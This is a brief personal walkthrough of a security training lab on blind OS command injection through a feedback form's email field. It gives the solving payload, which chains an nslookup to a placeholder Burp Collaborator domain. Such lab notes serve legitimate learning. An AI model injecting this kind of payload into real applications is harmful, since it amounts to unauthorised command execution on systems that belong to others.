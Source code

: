 `Burp Collabolator not included in Burp Community`
Title: Blind OS command injection with out-of-band interaction
Level: PRACTITIONER
Desc:  This lab contains a blind OS command injection vulnerability in the feedback function.
The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.
To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 

# Walkthrough: 
`email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
I guess, that I could do the same in subject as in recent labs.
